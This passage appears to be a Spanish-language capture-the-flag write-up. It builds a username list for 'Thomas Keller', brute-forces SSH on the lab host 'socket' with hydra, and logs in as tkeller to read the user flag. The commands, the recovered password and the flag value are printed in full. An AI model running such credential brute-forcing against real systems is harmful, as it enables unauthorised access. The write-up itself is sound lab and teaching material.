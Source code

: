 Con ```username-anarchy``` creo un diccionario de usuarios

```null
/opt/username-anarchy/username-anarchy Thomas Keller > users.txt
```

Obtengo uno válido a través de fuerza bruta por SSH

```null
hydra -L users.txt -p 'denjanjade122566' 10.10.11.206 ssh -t 4
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-07-28 12:56:00
[DATA] max 4 tasks per 1 server, overall 4 tasks, 15 login tries (l:15/p:1), ~4 tries per task
[DATA] attacking ssh://10.10.11.206:22/
[22][ssh] host: 10.10.11.206   login: tkeller   password: denjanjade122566
^[	1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-07-28 12:56:30
```

Me conecto y puedo ver la primera flag

```null
ssh tkeller@10.10.11.206
tkeller@10.10.11.206's password: 
Welcome to Ubuntu 22.04.2 LTS (GNU/Linux 5.15.0-67-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Fri Jul 28 12:56:12 PM UTC 2023

  System load:  0.080078125       Processes:             224
  Usage of /:   54.6% of 8.51GB   Users logged in:       0
  Memory usage: 11%               IPv4 address for eth0: 10.10.11.206
  Swap usage:   0%


 * Introducing Expanded Security Maintenance for Applications.
   Receive updates to over 25,000 software packages with your
   Ubuntu Pro subscription. Free for personal use.

     https://ubuntu.com/pro

Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Fri Jul 28 05:40:17 2023 from 10.10.16.16
tkeller@socket:~$ cat user.txt 
7fabce0bfd0bac5e13f157516233ffe3
```
